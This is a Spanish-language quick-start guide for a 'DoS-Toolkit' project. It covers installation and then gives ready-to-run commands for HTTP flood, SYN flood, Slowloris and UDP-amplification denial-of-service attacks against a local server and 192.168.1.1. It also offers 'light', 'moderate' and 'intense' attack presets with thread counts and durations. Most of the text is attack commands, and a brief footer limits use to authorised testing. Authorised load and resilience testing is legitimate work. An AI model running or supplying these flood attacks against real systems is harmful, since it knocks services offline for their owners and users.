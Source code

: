 # Inicio Rápido - DoS-Toolkit

Guía rápida para empezar en 5 minutos.

## 1️⃣ Instalación (2 minutos)

### Windows
```bash
# Descargar Python desde https://www.python.org/downloads/
# Instalar con "Add Python to PATH" marcado

# Instalar dependencias
pip install -r python/requirements.txt
```

### Linux/macOS
```bash
# Instalar Python (si no lo tienes)
sudo apt install python3 python3-pip  # Ubuntu/Debian
brew install python3                   # macOS

# Instalar dependencias
pip install -r python/requirements.txt
```

## 2️⃣ Verificación (1 minuto)

```bash
# Ejecutar pruebas
python test_toolkit.py

# Debería mostrar: "✓ ¡Todas las pruebas pasaron!"
```

## 3️⃣ Primer Ataque (2 minutos)

### Opción A: Usar CLI Interactivo

```bash
# Ejecutar CLI
python cli.py

# Seleccionar:
# 1. Python
# 2. HTTP-Flood
# Ingresar parámetros
```

### Opción B: Línea de Comandos

```bash
# HTTP-Flood contra servidor local
python python/attacks.py --attack http_flood --target localhost --port 8000 --threads 5 --duration 10
```

### Opción C: Crear Servidor de Prueba

```bash
# Terminal 1: Crear servidor
python -m http.server 8000

# Terminal 2: Ejecutar ataque
python python/attacks.py --attack http_flood --target localhost --port 8000 --threads 10 --duration 30
```

---

## 📊 Tipos de Ataques

### HTTP-Flood
```bash
python python/attacks.py --attack http_flood --target 192.168.1.1 --port 80 --threads 50 --duration 60
```
**Uso**: Abrumar servidor web con solicitudes HTTP

### SYN-Flood
```bash
sudo python python/attacks.py --attack syn_flood --target 192.168.1.1 --port 443 --threads 100 --duration 60
```
**Uso**: Abrumar tabla de conexiones TCP (requiere admin)

### Slowloris
```bash
python python/attacks.py --attack slowloris --target 192.168.1.1 --port 80 --threads 30 --duration 300
```
**Uso**: Mantener conexiones abiertas indefinidamente

### UDP-Amplification
```bash
python python/attacks.py --attack udp_amplification --target 192.168.1.1 --port 53 --threads 200 --duration 60
```
**Uso**: Amplificar tráfico usando servidores DNS/NTP

---

## 🔧 Parámetros Comunes

```
--attack      http_flood | syn_flood | slowloris | udp_amplification
--target      IP o dominio objetivo
--port        Puerto (default 80)
--threads     Número de threads (default 100)
--duration    Duración en segundos (default 60)
```

---

## 💡 Ejemplos Prácticos

### Prueba Local
```bash
# Terminal 1
python -m http.server 8000

# Terminal 2
python python/attacks.py --attack http_flood --target localhost --port 8000 --threads 5 --duration 10
```

### Ataque Leve
```bash
python python/attacks.py --attack http_flood --target 192.168.1.1 --port 80 --threads 10 --duration 30
```

### Ataque Moderado
```bash
python python/attacks.py --attack http_flood --target 192.168.1.1 --port 80 --threads 100 --duration 120
```

### Ataque Intenso
```bash
python python/attacks.py --attack http_flood --target 192.168.1.1 --port 80 --threads 500 --duration 300
```

---

## 🐛 Solución Rápida de Problemas

### "python: command not found"
```bash
# Usar python3
python3 cli.py
```

### "ModuleNotFoundError: No module named 'requests'"
```bash
# Instalar dependencias
pip install -r python/requirements.txt
```

### "Permission denied" (Linux/macOS)
```bash
# Dar permisos
chmod +x cli.py
python cli.py
```

### "SYN-Flood requiere permisos de administrador"
```bash
# Ejecutar con sudo
sudo python python/attacks.py --attack syn_flood ...
```

---

## 📚 Documentación Completa

- **[README.md](README.md)** - Documentación principal
- **[EJEMPLOS.md](EJEMPLOS.md)** - Ejemplos detallados
- **[SETUP.md](SETUP.md)** - Guía de instalación completa
- **[config.py](config.py)** - Configuración global

---

## ⚠️ Importante

✅ **Permitido:**
- Pruebas en tu propia red
- Laboratorios de seguridad
- Investigación académica
- Pruebas autorizadas

❌ **Prohibido:**
- Ataques no autorizados
- Daño a sistemas ajenos
- Uso malicioso

---

## 🚀 ¡Listo!

Ya puedes ejecutar:
```bash
python cli.py
```

¡Disfruta del DoS-Toolkit!
